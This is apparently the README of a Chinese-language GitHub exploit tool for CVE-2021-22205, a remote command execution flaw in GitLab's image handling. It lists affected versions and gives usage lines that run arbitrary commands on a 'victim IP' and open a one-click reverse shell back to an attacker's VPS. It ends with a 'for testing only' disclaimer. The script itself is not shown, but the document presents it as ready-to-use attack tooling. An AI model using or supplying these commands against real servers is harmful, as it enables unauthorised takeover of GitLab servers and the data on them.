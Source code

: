 # CVE-2021-22205
由于Gitlab未正确验证传递到文件解析器的图像文件从而导致命令执行。攻击者可构造恶意请求利用该漏洞在目标系统执行任意指令，最终导致Gitlab服务器被控制。由于网上大多缺少反弹shell，故修改了网上写的脚本，增加了一键getshell功能

## 影响版本
* 11.9 <=  GitLab（CE/EE）< 13.8.8
* 13.9 <=  GitLab（CE/EE）< 13.9.6
* 13.10 <= GitLab（CE/EE）< 13.10.3

## 使用说明
```shell
	  ______     _______     ____   ___ ____  _      ____  ____  ____   ___  ____  
	 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \|___ \|___ \ / _ \| ___| 
	| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | __) | __) | | | |___ \ 
	| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/ / __/ / __/| |_| |___) |
 	\____ |  \_/  |_____|   |_____|\___/_____|_|    |_____|_____|_____|\___/|____/ 
    	
usage: CVE-2021-22205.py [-h] [-t TARGET] [-c COMMAND] [--shell] [-i IP]
                         [-p PORT]

GitLab < 13.10.3 RCE

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        目标URL
  -c COMMAND, --command COMMAND
                        执行命令
  --shell               是否反弹shell
  -i IP, --ip IP        反弹shell ip
  -p PORT, --port PORT  反弹shell端口
```
## 使用
```shell
python3 CVE-2021-22205.py -t [受害者ip] --shell -i [vps ip] -p [vps port] //反弹shell
python3 CVE-2021-22205.py -t [受害者ip] -c [command] //执行命令
```
## 声明
此脚本仅可用于测试使用，勿作他用
